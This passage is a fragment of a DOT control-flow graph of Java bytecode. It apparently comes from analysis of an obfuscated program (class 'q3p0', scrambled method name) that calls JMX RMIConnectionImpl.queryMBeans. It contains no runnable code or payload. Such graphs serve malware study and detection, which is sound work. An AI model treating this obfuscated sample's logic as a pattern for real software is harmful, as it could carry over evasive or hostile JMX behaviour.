    "checkcast"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"store.r r0";
    "load.r r0"->"store.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticinvoke <q3p0: java.lang.Object qFPExwnqeJTJEvcxkAE(java.lang.String,java.lang.Class)>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticinvoke <q3p0: java.lang.Object qFPExwnqeJTJEvcxkAE(java.lang.String,java.lang.Class)>";
    "staticinvoke <q3p0: java.lang.Object qFPExwnqeJTJEvcxkAE(java.lang.String,java.lang.Class)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"goto load.r r1";
}
